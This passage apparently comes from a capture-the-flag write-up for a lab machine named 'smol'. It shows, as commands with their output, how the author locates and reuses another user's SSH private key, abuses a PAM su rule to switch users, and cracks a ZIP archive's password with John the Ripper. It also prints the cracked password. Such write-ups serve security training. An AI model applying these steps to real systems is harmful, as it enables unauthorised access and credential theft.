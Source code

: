Next, I searched for files owned by the user think and discovered SSH keys:
```bash
diego@smol:~$ find / -user think -type f 2>/dev/null
/home/think/.profile
/home/think/.bashrc
/home/think/.bash_logout
/home/think/.ssh/id_rsa
/home/think/.ssh/authorized_keys
/home/think/.ssh/id_rsa.pub
```

After copying the private `id_rsa` key to my machine, I was able to log in using it:
```bash
$ nano id_rsa
$ chmod 600 id_rsa
$ ssh -i id_rsa think@10.10.241.110
think@smol:~$
  uid=1000(think) gid=1000(think) groups=1000(think),1004(dev),1005(internal)
```

## Privilege Escalation gege

I checked `/etc/pam.d/su` and discoverd that I was allowed to switch the user "gege" if I was logged in as "think".
```bash
think@smol:/home/gege$ cat /etc/pam.d/su | grep -v '#'
  [...]
  auth  [success=ignore default=1] pam_succeed_if.so user = gege
  auth  sufficient                 pam_succeed_if.so use_uid user = think
  [...]
think@smol:/home/gege$ su gege
gege@smol:~$ id
  uid=1003(gege) gid=1003(gege) groups=1003(gege),1004(dev),1005(internal)
```

## Privilege Escalation xavi

In Gege's home directory, I found a ZIP archive. After downloading it to my local machine, I successfully cracked the password and accessed the files:
```bash
$ zip2john wordpress.old.zip
$ nano ziphash
$ john --wordlist=/usr/share/wordlists/rockyou.txt ziphash 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
hero_gege@hotmail.com (wordpress.old.zip)     
1g 0:00:00:00 DONE (2025-03-18 08:30) 1.724g/s 13163Kp/s 13163Kc/s 13163KC/s hesse..hellome2010
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
$ unzip wordpress.old.zip
Archive:  wordpress.old.zip
   creating: wordpress.old/
[wordpress.old.zip] wordpress.old/wp-config.php password:
[...]
```
